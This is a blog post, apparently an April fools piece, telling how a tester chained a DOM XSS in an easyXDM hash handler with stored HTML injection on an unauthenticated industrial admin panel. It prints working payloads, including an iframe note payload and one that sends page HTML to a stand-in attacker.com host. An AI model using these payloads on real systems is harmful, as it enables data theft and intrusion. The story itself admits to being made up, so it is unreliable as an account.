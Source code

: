 ```yaml
---
layout: post
title: From XSS to RCE
description: "I managed to executed
 system commands with XSS."
modified: 01-04-2019
tags: [xss]
image:
  path: /images/featured/xss-to-rce.png
  feature: /featured/xss-to-rce.png
---
```


About 3 days ago, I was recursively bruteforcing subdomains for a domain and I stumbled upon a domain that hosted an admin panel.
I guess it was my lucky day because it didn't require any authentication.
It didn't take me long to realise that it was acutally a web interface to monitor and control industrial machines.
They might have thought that it's well hidden and it needs to be accessed a million times of the by every other employee so they kept it open to keep off the hassle.

I thought I hit the jackpot but then I realised I could just monitor the systems, I needed credentials to make the machines do anything.
<!--more-->
I really wanted to do more so I started to look for what else could be done.
10 minutes into testing and shit and XSStrike found a potenial DOM XSS vulnerability.
The vulnerable code was the following:

```javascript
if (location.hash) {
  if (location.hash.substring(1, 2) === "_") {
    var channel, url, hash = location.href.substring(location.href.indexOf("#") + 3), indexOf = hash.indexOf(",");
    if (indexOf == -1) {
      channel = hash;
    }
    else {
      channel = hash.substring(0, indexOf);
      url = decodeURIComponent(hash.substring(indexOf + 1));
    }
    switch (location.hash.substring(2, 3)) {
      case "2":
        // NameTransport local
        window.parent.parent.easyXDM.Fn.get(channel)(window.name);
        location.href = url + "#_4" + channel + ",";
        break;
      case "3":
        location.href = url + "#_4" + channel + ",";
        break;
      case "4":
        // NameTransport idle
        var fn = window.parent.easyXDM.Fn.get(channel + "_load");
        if (fn) {
          fn();
        }
        break;
    }
  }
}
```

XSStrike picked up that input from a source (`location.hash` in this case) was being supplied to a sink (`location.href` in this case), crafing the payload was upto me.
I finally came up with `#_3channel,javascript:alert(1)//`.

But as an attacker, I would need to send the link to someone who had credentials but I couldn't do it, I didn't have the permission to interact with the staff.
So I started to look for other things, got a bunch of useless CSRFs but at last I found what I needed the most, stored XSS.
There was a feature to include notes so employees can collaborate on things and it was vulnerable to XSS*. I shouldn't call it XSS because I wasn't actually able to execute JavaScript.

Backend was filtering event handlers based on `on[a-zA-Z]*` pattern, `<script`, `href` and `data` attributes and a few other things I tried. Without having the ability to execute JavaScript, it was plain boring HTML injection.

But hey! I had DOM XSS! I knew exactly what to do, I tried injecting `<iframe src="http://xx.yy.redacted.com/panel/main.html#_3channel,javascript:alert(1)//"` and it worked like a charm!
If there's a god, I am pretty sure he is determined to make my life harder than a morning wood because the cookies had the http_only flag :')
That wasn't much of problem because I could still dig deeper if I could see what an authorised person has access to but there was another problem, `script`s weren't allowed to make cross origin requests.
I would say **fuck** at this if I were you but I have said that enough times already.

I am not sure if it was public knowledge already but I discovered a way to access DOM, retrieve data and send it to my server bypassing all the restriction.
Yeah, we all know the `<img src="//attacker.com/?="+document.cookie>` trick but it doesn't work if you try to do `<img src="//attacker.com/?="+document.documentElement.innerHTML>` for obvious reasons.

So here's the trick, `img` tag can make requests to an external resource and the `script` tag can execute arbitrary JavaScript so we can grab the data we want with a `script` tag, create a new `img` element whose `src` has the juicy data in it's URL as `//attacker.com/?=juicy_data`.

Now the final payload had become this,

```javascript
#_3channel,javascript:(new Image()).src='//attacker.com/'%2Bdocument.documentElement.innerHTML//
```

To execute it, I added the following payload to a note

```javascript
<iframe src="http://xx.yy.redacted.com/panel/main.html#_3channel,javascript:(new Image()).src='//attacker.com/'%2Bdocument.documentElement.innerHTML//">
```

I hope you know what the above payload does.

Anyways, after tons of response from unathenticated users, I finally got one from an authenticated one. How did I know?
Well it didn't had the string `Log in XYZ...`.
Since the source was very long and couldn't be included in a single HTTP request, I had to `slice()` it which took more than hour but it was fruitful.
It had the endpoints to control various aspects of various machines.

That's it! I wrote a script to automate the process of creating a note that injects payload to executre given command when opened by an authenticated person.

![exploit](/images/featured/xss-to-rce.png)

One more thing. none of it happened, Happy april fools day :p

Anyways, Marvel is better than DC <3

